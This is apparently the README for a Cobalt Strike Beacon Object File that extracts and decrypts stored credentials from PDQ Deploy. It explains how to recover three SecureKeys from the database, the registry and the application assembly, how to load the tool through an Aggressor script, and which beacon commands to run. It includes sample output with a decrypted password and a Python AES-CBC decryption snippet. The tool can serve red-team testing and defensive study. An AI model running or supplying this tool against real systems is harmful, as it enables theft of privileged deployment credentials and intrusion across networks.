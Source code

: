# PDQ Deploy Credential Recovery

A Beacon Object File (BOF) that extracts and decrypts credentials from PDQ Deploy.

## Overview

This BOF can extract credentials from PDQ Deploy's database and decrypt them using the SecureKeys stored in:
1. The PDQ Deploy application assembly
2. The PDQ Deploy database
3. The Windows registry

## Features

The BOF provides two modes of operation:

1. **Check Mode** - Verifies if the three SecureKeys needed for decryption can be recovered without extracting credentials
2. **Credentials Mode** - Extracts and decrypts credentials from the PDQ Deploy database

## Compilation

### Using Visual Studio
1. Open the Visual Studio solution
2. Build the project in Release configuration
3. The compiled BOF will be in either:
   - `x64/Release/PDQ.o` (for 64-bit)
   - `x86/Release/PDQ.o` (for 32-bit)

### Using Makefile
```bash
# For 64-bit
make

# For 32-bit (if supported)
make x86
```

## File Placement for Aggressor Script

The PDQ BOF and Aggressor script should be organized as follows:

### Option 1: Place BOF in the same directory as the Aggressor script
```
/path/to/scripts/
├── pdq_deploy.cna            # Aggressor script
├── pdq.x64.o                 # 64-bit BOF (rename from PDQ.o)
└── pdq.x86.o                 # 32-bit BOF (optional)
```

### Option 2: Place BOF in subdirectories
```
/path/to/scripts/
├── pdq_deploy.cna            # Aggressor script
├── bin/
│   ├── pdq.x64.o             # 64-bit BOF
│   └── pdq.x86.o             # 32-bit BOF (optional)
└── x64/
    └── pdq.o                 # 64-bit BOF (alternative location)
```

## Manual Usage in Cobalt Strike

```
# Check if SecureKeys can be extracted
beacon> inline-execute /path/to/PDQ.o check

# Extract and decrypt credentials
beacon> inline-execute /path/to/PDQ.o credentials
```

## Using the Aggressor Script

1. Load the `pdq_deploy.cna` script in Cobalt Strike:
   ```
   Cobalt Strike -> Scripts -> Load
   ```

2. Use one of the registered commands:
   ```
   beacon> pdq_check
   beacon> pdq_credentials
   ```

3. Alternatively, use the context menu added to the Beacon menu:
   ```
   [Beacon] -> PDQ Deploy -> Check SecureKeys
   [Beacon] -> PDQ Deploy -> Extract Credentials
   ```

## Troubleshooting

If you encounter errors like:
```
[!] Function call &beacon_inline_execute failed: The BOF content (arg 2) is empty.
```

This means the Aggressor script couldn't locate your compiled BOF file. Try these solutions:

1. Check that you've compiled the BOF correctly
2. Verify the BOF file exists and is not empty
3. Rename your compiled BOF file to match what the script is looking for:
   - `PDQ.o` → `pdq.x64.o` for 64-bit
   - `PDQ.o` → `pdq.x86.o` for 32-bit
4. Place the BOF files in one of the locations checked by the script

The script automatically checks multiple common locations for the BOF file, including:
- Current script directory
- `./bin/` subdirectory
- `./x64/` or `./x86/` subdirectories
- `./dist/` subdirectory
- Absolute path at `c:/bof-vs/PDQ/x64/Release/PDQ.o`

## Command Details

### pdq_check
Checks if the three SecureKeys (application, database, registry) are available without extracting credentials.

Output example:
```
Checking for PDQ Deploy SecureKeys...
DB SecureKey: bd30b186-8ff3-41cc-b73f-82592775f6a8
Registry SecureKey: a7579900-06c4-4a99-9358-0146b6db0bcd
Application SecureKey: 043E2818-3D63-41F9-9803-B03593F33C7D
SUCCESS: All three SecureKeys found. Decryption should be possible.
```

### pdq_credentials
Extracts credentials from the PDQ Deploy database and attempts to decrypt them using the available SecureKeys.

Output example:
```
Valid SQLite DB. Extracting credentials...
UserName: test
EncryptedPasswordBlob: 28656E63727970746564290010D7BF7E901BD8BCF2D69FEF9CBD34430BD2F30B86B947193588E57D78EE4ABCD1
Found 1 credential entry
Found DB SecureKey
Found Registry SecureKey
Found Application SecureKey
Attempting to decrypt 1 credential
Decrypted password for test: TEST
Successfully decrypted 1 of 1 credentials
```

## Technical Details

The BOF uses a combination of the three SecureKeys to decrypt credentials:
1. Extracts GUIDs from the PDQ Deploy database
2. Gets the SecureKey from the Windows registry
3. Searches for GUIDs in the application assembly
4. Combines all keys and uses them for AES-CBC decryption

The decryption follows the same methodology as the Python implementation:
```python
key_hash = hashlib.sha256(key.encode('utf-8')).digest()
aes_key = key_hash[:16]
cipher = AES.new(aes_key, AES.MODE_CBC, iv)
``` 